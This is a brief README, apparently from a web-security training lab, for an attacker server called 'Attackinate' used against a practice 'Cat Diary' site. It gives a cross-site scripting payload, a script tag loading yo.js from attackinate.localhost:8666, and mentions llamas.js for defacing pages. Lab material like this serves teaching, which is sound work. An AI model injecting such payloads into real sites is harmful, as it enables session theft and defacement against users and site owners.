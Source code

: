 # Attackinate

This is the panther's web server, which he operates in order to attack the Cat Diary.

Run this on Windows (instead of in a docker container) to get a notification when
a trap is tripped.

Use cross-site scripting to set a trap.

Inject a call to this site's yo.js to trip the trap:

```
<script src="http://attackinate.localhost:8666/yo.js"></script>
```

You can also inject http://attackinate.localhost:8666/llamas.js to deface a site.


